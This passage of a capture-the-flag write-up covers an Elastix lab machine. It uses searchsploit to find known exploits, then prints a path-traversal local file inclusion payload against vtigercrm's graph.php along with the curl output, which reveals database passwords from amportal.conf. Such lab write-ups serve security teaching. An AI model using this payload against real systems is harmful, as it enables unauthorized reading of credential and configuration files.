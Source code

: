 ![[http-basic-auth-cancel-redirect.png]]

### LFI

If we use searchsploit to find exploits on Elastix:

```shell
❯ searchsploit elastix
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilit | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulner | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion     | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                    | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                   | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Executi | php/webapps/18650.py
----------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can see a view exploits, to narrow this down we can use the machine hint, which says LFI, or we can read each exploit and confirm if the vulnerability exist, in this case if we read the exploit the following perl exploit:

```shell
❯ searchsploit -x php/webapps/37637.pl
```

There's a line that we can use to confirm if this file exists:

```perl
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We can use curl to confirm that this file exists:

```shell
❯ curl -Isk https://10.10.10.7/vtigercrm/graph.php
HTTP/1.1 200 OK
Date: Wed, 22 Dec 2021 23:12:58 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Connection: close
Content-Type: text/html; charset=UTF-8
```

We can confirm the POC with curl:

```shell
❯ curl -vsk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action"
*   Trying 10.10.10.7:443...
* Connected to 10.10.10.7 (10.10.10.7) port 443 (#0)
<..SNIP..>
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
<..SNIP..>
```
